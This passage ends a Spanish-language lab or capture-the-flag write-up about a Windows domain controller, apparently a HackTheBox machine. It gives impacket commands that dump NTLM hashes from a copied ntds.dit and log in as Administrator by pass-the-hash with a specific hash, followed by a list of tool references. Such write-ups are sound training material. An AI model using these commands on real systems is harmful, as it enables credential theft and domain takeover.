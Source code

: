Teniendo los 2 archivos usaremos **secretsdump.py** de impacket para obtener el hash del administrador y posteriormente obtener una shell.

`python /opt/impacket/examples/secretsdump.py -ntds ntds.dit -system system.hive local -just-dc-ntlm`

![17](img/17.png)

`python /opt/impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee Administrator@10.10.10.192`

![18](img/18.png)

## Referencias
https://github.com/SecureAuthCorp/impacket \
https://github.com/fox-it/BloodHound.py \
https://github.com/BloodHoundAD/BloodHound \
https://malicious.link/post/2017/reset-ad-user-password-with-linux/ \
https://github.com/skelsec/pypykatz \
https://github.com/Hackplayers/evil-winrm \
https://github.com/giuliano108/SeBackupPrivilege \
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow

